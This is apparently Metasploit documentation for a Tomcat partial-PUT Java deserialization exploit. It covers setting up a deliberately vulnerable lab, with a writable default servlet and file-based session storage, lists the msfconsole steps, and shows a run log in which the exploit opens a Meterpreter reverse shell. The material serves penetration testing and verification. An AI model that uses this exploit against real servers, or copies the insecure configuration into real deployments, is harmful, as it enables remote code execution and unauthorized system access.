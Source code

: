 ## Vulnerable Application
This module exploits a Java deserialization vulnerability in Apache Tomcat's session restoration functionality
that can be exploited with a partial PUT to place an attacker controlled deserialization payload in the work directory.
For the exploit to succeed, writes must be enabled for the default servlet, and `org.apache.catalina.session.PersistentManager` must be
configured to use `org.apache.catalina.session.FileStore`.

## Setup
Download Ubuntu Server 24:
`wget https://mirror.0xem.ma/ubuntu-releases/24.04.2/ubuntu-24.04.2-live-server-amd64.iso`

Install ubuntu on your preferred hypervisor, enable SSH during installation. Reboot once installation is complete and SSH into the target.
Download Tomcat and Java:
```
wget https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.90/bin/apache-tomcat-9.0.90.zip
wget https://cdn.azul.com/zulu/bin/zulu8.80.0.17-ca-jdk8.0.422-linux_x64.tar.gz
```

Extract the JDK Archive to the appropriate directory:
```
tar -xvzf zulu8.80.0.17-ca-jdk8.0.422-linux_x64.tar.gz
sudo mkdir -p /opt/java
sudo mv zulu8.80.0.17-ca-jdk8.0.422-linux_x64 /opt/java/zulu8
```

Install `unzip` and extract Tomcat:
```
sudo apt install unzip -y
sudo unzip apache-tomcat-9.0.90.zip -d /opt/
```

Set `CATALINA_HOME` and `JAVA_HOME` also update `PATH` by adding the following to `~/.bashrc`:
```
export CATALINA_HOME=/opt/apache-tomcat-9.0.90
export JAVA_HOME=/opt/java/zulu8
export PATH=$JAVA_HOME/bin:$PATH
```

Apply changes:
```
source ~/.bashrc
```

Change Tomcat permissions:
```
sudo chown -R msfuser:msfuser /opt/apache-tomcat-9.0.90
sudo chmod -R +x /opt/apache-tomcat-9.0.90/bin
```

Edit `conf/web.xml` and update the default servlet with the following:
```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
          <param-name>readonly</param-name>
          <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

Edit `conf/content.xml` and add the following inside the pre-existing `<Context>` tags:
```
    <Manager className="org.apache.catalina.session.PersistentManager">
      <Store className="org.apache.catalina.session.FileStore" />
    </Manager>
```

Create the following directory inside the tomcat root directory:
```
mkdir -p webapps/ROOT/WEB-INF/lib
cd ./webapps/ROOT/WEB-INF/lib
```

Download the following dependencies:
```
wget https://repo1.maven.org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
wget https://repo1.maven.org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar
wget https://repo1.maven.org/maven2/commons-collections/commons-collections/3.1/commons-collections-3.1.jar
```

Start the vulnerable Tomcat instance:
```
cd /opt/apache-tomcat-9.0.90/bin
./startup.sh
```

## Options

### GADGET
The desired ysoserial gadget to use to obtain RCE.

## Verification Steps
1. Start msfconsole
2. `use multi/http/tomcat_partial_put_deserialization`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set GADGET <YSOSERIAL_GADGET>`
6. `set LHOST eth0`
7. `check`
8. `exploit`

## Scenarios

### Apache Tomcat 9.0.90, jdk8.0.422 running on Ubuntu Server 24. Target: Linux Command

```
msf6 > use multi/http/tomcat_partial_put_deserialization
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set rport 8080
rport => 8080
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set rhost 172.16.199.130
rhost => 172.16.199.130
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > set gadget CommonsCollections6
gadget => CommonsCollections6
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > check
[!] This exploit may require manual cleanup of '../webapps/ROOT/YLNKdGSIcB.session' on the target
[+] 172.16.199.130:8080 - The target is vulnerable.
msf6 exploit(multi/http/tomcat_partial_put_deserialization) > run
[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Utilizing CommonsCollections6 deserialization chain
[+] Uploaded ysoserial payload (imNsIsZCCC.session) via partial PUT
[*] Attempting to deserialize session file..
[+] 500 error response usually indicates success :)
[*] Sending stage (24772 bytes) to 172.16.199.130
[+] Deleted ../webapps/ROOT/pAdshcNMRO.session
[+] Deleted ../webapps/ROOT/imNsIsZCCC.session
[*] Meterpreter session 6 opened (172.16.199.1:4444 -> 172.16.199.130:44562) at 2025-04-02 13:34:50 -0700

meterpreter > getuid
Server username: msfuser
meterpreter > sysinfo
Computer        : msfserver
OS              : Linux 6.8.0-57-generic #59-Ubuntu SMP PREEMPT_DYNAMIC Sat Mar 15 17:40:59 UTC 2025
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```
